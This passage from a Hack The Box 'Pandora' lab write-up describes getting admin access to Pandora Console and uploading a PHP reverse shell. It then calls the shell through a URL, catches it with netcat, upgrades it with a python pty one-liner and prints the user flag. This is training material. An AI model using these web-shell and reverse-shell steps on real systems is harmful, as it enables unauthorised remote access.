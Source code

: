 

![Admin](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\Admin.jpg)



**It worked!** Now we are logged in as the **administrator** on the page, now we should set a password for this account.

# Reverse shell
Now logged as an admin we can upload files into the machine.
We will upload a php-reverse-shell file to establish a reverse shell on our local machine. 



![Upload2](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\Upload2.jpg)





![Reverse2](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\Reverse2.jpg)





- We can see that our reverse shell has been uploaded in /pandora_console/images/

  

![reverse4](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\reverse4.jpg)



**Make sure that you have changed the reverse shell file parameters, then start a netcat on your machine on the port that you have set in the php reverse shell file.**

Lets execute our reverse shell using:  

```php
http://127.0.0.1/pandora_console/images/[Reverse_shell_file].php
```



![terminalreverse](C:\Users\Usuario\Desktop\HTB Writeups\Pandora Writeup\content\terminalreverse.jpg)



Now we have established a reverse shell, lets upgrade it by using:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL + Z 
stty raw -echo; fg
export TERM=xterm
```
now we can read the user flag

>matt@pandora:/home/matt$ ls
>`user.txt`
>matt@pandora:/home/matt$ cat user.txt
>`d2b6b568f4874d0a6e7a62e06f34fedf`
